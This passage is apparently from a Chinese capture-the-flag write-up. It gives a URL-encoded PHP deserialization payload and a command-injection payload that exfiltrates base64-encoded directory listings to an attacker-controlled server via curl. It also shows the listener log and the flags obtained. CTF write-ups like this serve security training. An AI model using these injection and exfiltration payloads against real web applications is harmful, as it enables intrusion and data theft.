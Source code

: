 运行一下得到payload

```
O%3A2%3A%22gg%22%3A1%3A%7Bs%3A6%3A%22%00gg%00gg%22%3BO%3A5%3A%22start%22%3A2%3A%7Bs%3A13%3A%22%00start%00start1%22%3BO%3A3%3A%22cat%22%3A0%3A%7B%7Ds%3A13%3A%22%00start%00start2%22%3BO%3A5%3A%22test2%22%3A1%3A%7Bs%3A8%3A%22%00test2%00a%22%3BO%3A4%3A%22flag%22%3A0%3A%7B%7D%7D%7D%7D
```

传入得到`MiniLCTF{eaSy_pHp_Uns3r1zal1z3_}`

![](https://ws1.sinaimg.cn/large/006Vib6xly1frebdt2n18j30az0520t9.jpg)

### CURL

```
没过滤全
```

命令注入

payload

```
curl=vpsip:port/`ls|base64`
```

我们也可以加上`head`和`tail`参数来限制返回的行数

例如

```
ls|base64|head -n 2|tail -n 1
```

在服务器上监听

```
Listening on [0.0.0.0] (family 0, port 2333)
Connection from 45.40.207.251 53920 received!
GET /LS02eGFramRoY2ZoY25zawotLTd4YWJmOHNhaGRjaGZ1ZHkudHh0CmNzcwppbmRleC5waHAK HTTP/1.1
User-Agent: curl/7.38.0
```

用base64解码一下`LS02eGFramRoY2ZoY25zawotLTd4YWJmOHNhaGRjaGZ1ZHkudHh0CmNzcwppbm`

得到

```
--6xakjdhcfhcnsk
--7xabf8sahdchfudy.txt
css
index.php
```

直接访问`—7xabf8sahdchfudy.txt`得到flag`MiniLCTF{Y0u_G3t_1t_2333}`

![](https://ws1.sinaimg.cn/large/006Vib6xly1frebcxoeh2j30c905w0t8.jpg)

### 幸运数字
